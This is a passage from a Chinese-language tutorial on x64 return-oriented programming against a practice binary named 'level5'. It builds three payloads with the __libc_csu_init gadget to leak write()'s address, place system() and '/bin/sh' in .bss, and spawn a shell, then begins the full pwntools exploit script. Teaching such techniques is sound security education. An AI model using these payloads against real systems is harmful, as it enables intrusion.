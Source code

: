```
#!bash
#rdi=  edi = r13,  rsi = r14, rdx = r15 
#write(rdi=1, rsi=write.got, rdx=4)
payload1 =  "\x00"*136
payload1 += p64(0x400606) + p64(0) +p64(0) + p64(1) + p64(got_write) + p64(1) + p64(got_write) + p64(8) # pop_junk_rbx_rbp_r12_r13_r14_r15_ret
payload1 += p64(0x4005F0) # mov rdx, r15; mov rsi, r14; mov edi, r13d; call qword ptr [r12+rbx*8]
payload1 += "\x00"*56
payload1 += p64(main)
```

当我们exp在收到write()在内存中的地址后，就可以计算出system()在内存中的地址了。接着我们构造payload2，利用read()将system()的地址以及“/bin/sh”读入到.bss段内存中。

```
#!bash
#rdi=  edi = r13,  rsi = r14, rdx = r15 
#read(rdi=0, rsi=bss_addr, rdx=16)
payload2 =  "\x00"*136
payload2 += p64(0x400606) + p64(0) + p64(0) + p64(1) + p64(got_read) + p64(0) + p64(bss_addr) + p64(16) # pop_junk_rbx_rbp_r12_r13_r14_r15_ret
payload2 += p64(0x4005F0) # mov rdx, r15; mov rsi, r14; mov edi, r13d; call qword ptr [r12+rbx*8]
payload2 += "\x00"*56
payload2 += p64(main)
```

最后我们构造payload3,调用system()函数执行“/bin/sh”。注意，system()的地址保存在了.bss段首地址上，“/bin/sh”的地址保存在了.bss段首地址+8字节上。

```
#!bash
#rdi=  edi = r13,  rsi = r14, rdx = r15 
#system(rdi = bss_addr+8 = "/bin/sh")
payload3 =  "\x00"*136
payload3 += p64(0x400606) + p64(0) +p64(0) + p64(1) + p64(bss_addr) + p64(bss_addr+8) + p64(0) + p64(0) # pop_junk_rbx_rbp_r12_r13_r14_r15_ret
payload3 += p64(0x4005F0) # mov rdx, r15; mov rsi, r14; mov edi, r13d; call qword ptr [r12+rbx*8]
payload3 += "\x00"*56
payload3 += p64(main)
```

最终exp如下：

```
#!python
#!/usr/bin/env python
from pwn import *

elf = ELF('level5')
libc = ELF('libc.so.6')

p = process('./level5')
#p = remote('127.0.0.1',10001)

got_write = elf.got['write']
print "got_write: " + hex(got_write)
got_read = elf.got['read']
print "got_read: " + hex(got_read)

main = 0x400564

off_system_addr = libc.symbols['write'] - libc.symbols['system']
print "off_system_addr: " + hex(off_system_addr)

#rdi=  edi = r13,  rsi = r14, rdx = r15 
#write(rdi=1, rsi=write.got, rdx=4)
payload1 =  "\x00"*136
```